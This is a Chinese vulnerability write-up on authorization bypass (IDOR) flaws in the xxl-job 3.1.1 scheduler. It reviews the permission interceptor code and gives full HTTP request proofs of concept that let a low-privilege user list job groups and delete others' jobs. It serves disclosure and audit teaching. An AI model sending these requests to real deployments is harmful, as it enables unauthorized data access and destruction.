





# xxl-job IDOR 0Day 漏洞挖掘-先知社区

> **来源**: https://xz.aliyun.com/news/18612  
> **文章ID**: 18612

---

项目地址：<https://github.com/xuxueli/xxl-job，版本3.1.1>  
这是一个又 29.1k star的开源分布式任务调度平台，项目基于Java17构建，使用了SpringMVC技术，在互联网上有众多资产，如美团的大众点评等都有接入。

### 鉴权逻辑分析：

首先来看`com.xxl.job.admin.controller.interceptor`这个类：

```
package com.xxl.job.admin.controller.interceptor;

import jakarta.annotation.Resource;
import org.springframework.context.annotation.Configuration;
import org.springframework.web.servlet.config.annotation.InterceptorRegistry;
import org.springframework.web.servlet.config.annotation.WebMvcConfigurer;

/**
 * web mvc config
 *
 * @author xuxueli 2018-04-02 20:48:20
 */
@Configuration
public class WebMvcConfig implements WebMvcConfigurer {

    @Resource
    private PermissionInterceptor permissionInterceptor;
    @Resource
    private CookieInterceptor cookieInterceptor;

    @Override
    public void addInterceptors(InterceptorRegistry registry) {
        registry.addInterceptor(permissionInterceptor).addPathPatterns("/**");
        registry.addInterceptor(cookieInterceptor).addPathPatterns("/**");
    }

}
```

可以看到他实现了`WebMvcConfigurer`这个接口，并注册了两个拦截器。来看`permissionInterceptor`，这也是鉴权的核心：

```
package com.xxl.job.admin.controller.interceptor;

import com.xxl.job.admin.controller.annotation.PermissionLimit;
import com.xxl.job.admin.core.model.XxlJobGroup;
import com.xxl.job.admin.core.model.XxlJobUser;
import com.xxl.job.admin.core.util.I18nUtil;
import com.xxl.job.admin.service.impl.LoginService;
import jakarta.annotation.Resource;
import jakarta.servlet.http.HttpServletRequest;
import jakarta.servlet.http.HttpServletResponse;
import org.springframework.stereotype.Component;
import org.springframework.web.method.HandlerMethod;
import org.springframework.web.servlet.AsyncHandlerInterceptor;

import java.util.ArrayList;
import java.util.Arrays;
import java.util.List;

/**
 * 权限拦截
 *
 * @author xuxueli 2015-12-12 18:09:04
 */
@Component
public class PermissionInterceptor implements AsyncHandlerInterceptor {

    @Resource
    private LoginService loginService;

    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
        
        if (!(handler instanceof HandlerMethod)) {
            return true;	// proceed with the next interceptor
        }

        // if need login
        boolean needLogin = true;
        boolean needAdminuser = false;
        HandlerMethod method = (HandlerMethod)handler;
        PermissionLimit permission = method.getMethodAnnotation(PermissionLimit.class);
        if (permission!=null) {
            needLogin = permission.limit();
            needAdminuser = permission.adminuser();
        }

        if (needLogin) {
            XxlJobUser loginUser = loginService.ifLogin(request, response);
            if (loginUser == null) {
                response.setStatus(302);
                response.setHeader("location", request.getContextPath()+"/toLogin");
                return false;
            }
            if (needAdminuser && loginUser.getRole()!=1) {
                throw new RuntimeException(I18nUtil.getString("system_permission_limit"));
            }

            // set loginUser, with request
            setLoginUser(request, loginUser);
        }

        return true;	// proceed with the next interceptor
    }


    // -------------------- permission tool --------------------

    /**
     * set loginUser
     *
     * @param request
     * @param loginUser
     */
    private static void setLoginUser(HttpServletRequest request, XxlJobUser loginUser){
        request.setAttribute("loginUser", loginUser);
    }

    /**
     * get loginUser
     *
     * @param request
     * @return
     */
    public static XxlJobUser getLoginUser(HttpServletRequest request){
        XxlJobUser loginUser = (XxlJobUser) request.getAttribute("loginUser");	// get loginUser, with request
        return loginUser;
    }

    /**
     * valid permission by JobGroup
     *
     * @param request
     * @param jobGroup
     */
    public static void validJobGroupPermission(HttpServletRequest request, int jobGroup) {
        XxlJobUser loginUser = getLoginUser(request);
        if (!loginUser.validPermission(jobGroup)) {
            throw new RuntimeException(I18nUtil.getString("system_permission_limit") + "[username="+ loginUser.getUsername() +"]");
        }
    }

    /**
     * filter XxlJobGroup by role
     *
     * @param request
     * @param jobGroupList_all
     * @return
     */
    public static List<XxlJobGroup> filterJobGroupByRole(HttpServletRequest request, List<XxlJobGroup> jobGroupList_all){
        List<XxlJobGroup> jobGroupList = new ArrayList<>();
        if (jobGroupList_all!=null && jobGroupList_all.size()>0) {
            XxlJobUser loginUser = PermissionInterceptor.getLoginUser(request);
            if (loginUser.getRole() == 1) {
                jobGroupList = jobGroupList_all;
            } else {
                List<String> groupIdStrs = new ArrayList<>();
                if (loginUser.getPermission()!=null && loginUser.getPermission().trim().length()>0) {
                    groupIdStrs = Arrays.asList(loginUser.getPermission().trim().split(","));
                }
                for (XxlJobGroup groupItem:jobGroupList_all) {
                    if (groupIdStrs.contains(String.valueOf(groupItem.getId()))) {
                        jobGroupList.add(groupItem);
                    }
                }
            }
        }
        return jobGroupList;
    }

    
}

```

重写了`preHandle`方法，对每个`Controller`进行拦截，在其中我们看到了两个初始值：

```
boolean needLogin = true;
boolean needAdminuser = false;
```

也就是说如果没有通过`@PermissionLimit`注解来对路由权限进行控制的话，那么这个路由默认是允许登录的非管理员用户去进行访问的。  
除了这种全局的过滤器，在方法内部还可以通过`filterJobGroupByRole`来对权限进行细化，比如下面的例子：

```
@RequestMapping("/logDetailPage")
    public String logDetailPage(HttpServletRequest request, @RequestParam("id") int id, Model model){

        // base check
        XxlJobLog jobLog = xxlJobLogDao.load(id);
        if (jobLog == null) {
            throw new RuntimeException(I18nUtil.getString("joblog_logid_unvalid"));
        }

        // valid permission
        PermissionInterceptor.validJobGroupPermission(request, jobLog.getJobGroup());

        // data
        model.addAttribute("triggerCode", jobLog.getTriggerCode());
        model.addAttribute("handleCode", jobLog.getHandleCode());
        model.addAttribute("logId", jobLog.getId());
        return "joblog/joblog.detail";
    }
```

这里就是在判断当前登录的用户是否有权限访问该日志分组。  
那么久明确了，我们的目标是去找没有`@PermissionLimit`路由，并且方法内没有调用`PermissionInterceptor.validJobGroupPermission`的。  
这里其实可以写个codeql去进行查询，但是由于项目比较精简，一共没有多少路由，所以不写也无所谓了。

### IDOR Unauthorized Job Log Access in /xxl-job-admin/joblog/getJobsByGroup

来看这个`/xxl-job-admin/joblog/getJobsByGroup`路由：

```
@RequestMapping("/getJobsByGroup")
    @ResponseBody
    public ReturnT<List<XxlJobInfo>> getJobsByGroup(@RequestParam("jobGroup") int jobGroup){
        List<XxlJobInfo> list = xxlJobInfoDao.getJobsByGroup(jobGroup);
        return new ReturnT<List<XxlJobInfo>>(list);
    }
```

显然是符合我们之前的要求的，使用无任何权限的普通用户登录，验证正常情况下不能访问joblog  
  
发包，成功枚举日志信息：

```
POST /xxl-job-admin/joblog/getJobsByGroup HTTP/1.1
Host: localhost:8080
Accept-Language: zh-CN,zh;q=0.9
Sec-Fetch-Site: same-origin
Cookie: xxljob_adminlte_settings=on; Admin-Token=d16b68d0baae48739ab4acdb03e9efd5; cc_cookie=%7B%22categories%22%3A%5B%22necessary%22%2C%22analytics%22%5D%2C%22revision%22%3A0%2C%22data%22%3Anull%2C%22consentTimestamp%22%3A%222025-08-09T11%3A02%3A33.095Z%22%2C%22consentId%22%3A%2236b540b5-c17a-4173-83a2-170ea77a1320%22%2C%22services%22%3A%7B%22necessary%22%3A%5B%5D%2C%22analytics%22%3A%5B%5D%7D%2C%22languageCode%22%3A%22en%22%2C%22lastConsentTimestamp%22%3A%222025-08-09T11%3A02%3A33.095Z%22%2C%22expirationTime%22%3A1770462153096%7D; username=admin; rememberMe=true; password=dm48PXaj4zProjs3wkI/Tq1hmptyDbbW2MA3g5yBmra6cZvYu4tXH8rc5iKWfAfBYOj5gl9wLh0TSheYE5aAow==; XXL_JOB_LOGIN_IDENTITY=7b226964223a342c22757365726e616d65223a22707974686f6b222c2270617373776f7264223a226531306164633339343962613539616262653536653035376632306638383365222c22726f6c65223a302c227065726d697373696f6e223a22227d
Referer: http://localhost:8080/xxl-job-admin/joblog
sec-ch-ua: "Not)A;Brand";v="8", "Chromium";v="138", "Google Chrome";v="138"
Accept-Encoding: gzip, deflate, br, zstd
sec-ch-ua-platform: "Windows"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
sec-ch-ua-mobile: ?0
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://localhost:8080
Content-Length: 10

jobGroup=2
```



### IDOR Unauthorized Job Deletion in /xxl-job-admin/jobinfo/remove

来看这个`/xxl-job-admin/jobinfo/remove`路由：

```
@RequestMapping("/remove")  
@ResponseBody  
public ReturnT<String> remove(@RequestParam("id") int id) {  
    return xxlJobService.remove(id);  
}
```

依然是没有什么权限处理。验证普通用户不能访问jobinfo：  
  
发包：

```
POST /xxl-job-admin/jobinfo/remove HTTP/1.1
Host: localhost:8080
Sec-Fetch-Mode: cors
Accept-Encoding: gzip, deflate, br, zstd
sec-ch-ua: "Not)A;Brand";v="8", "Chromium";v="138", "Google Chrome";v="138"
X-Requested-With: XMLHttpRequest
Cookie: xxljob_adminlte_settings=on; Admin-Token=d16b68d0baae48739ab4acdb03e9efd5; cc_cookie=%7B%22categories%22%3A%5B%22necessary%22%2C%22analytics%22%5D%2C%22revision%22%3A0%2C%22data%22%3Anull%2C%22consentTimestamp%22%3A%222025-08-09T11%3A02%3A33.095Z%22%2C%22consentId%22%3A%2236b540b5-c17a-4173-83a2-170ea77a1320%22%2C%22services%22%3A%7B%22necessary%22%3A%5B%5D%2C%22analytics%22%3A%5B%5D%7D%2C%22languageCode%22%3A%22en%22%2C%22lastConsentTimestamp%22%3A%222025-08-09T11%3A02%3A33.095Z%22%2C%22expirationTime%22%3A1770462153096%7D; username=admin; rememberMe=true; password=dm48PXaj4zProjs3wkI/Tq1hmptyDbbW2MA3g5yBmra6cZvYu4tXH8rc5iKWfAfBYOj5gl9wLh0TSheYE5aAow==; XXL_JOB_LOGIN_IDENTITY=7b226964223a342c22757365726e616d65223a22707974686f6b222c2270617373776f7264223a226531306164633339343962613539616262653536653035376632306638383365222c22726f6c65223a302c227065726d697373696f6e223a22227d
Sec-Fetch-Site: same-origin
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Referer: http://localhost:8080/xxl-job-admin/jobinfo
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Sec-Fetch-Dest: empty
sec-ch-ua-mobile: ?0
Origin: http://localhost:8080
Content-Length: 4

id=5
```

  
查看数据库，发现任务被删除：  


### 总结

审计一个Spring Web项目时，第一件事就是去看他的安全配置，去看他的全局拦截器，权限控制等，水平越权和垂直越权在多身份的系统中屡见不鲜。  
漏洞已提交至vuldb，期待CVE编号ing。  
参考链接：  
<https://github.com/xuxueli/xxl-job/issues/3772>  
<https://github.com/xuxueli/xxl-job/issues/3773>
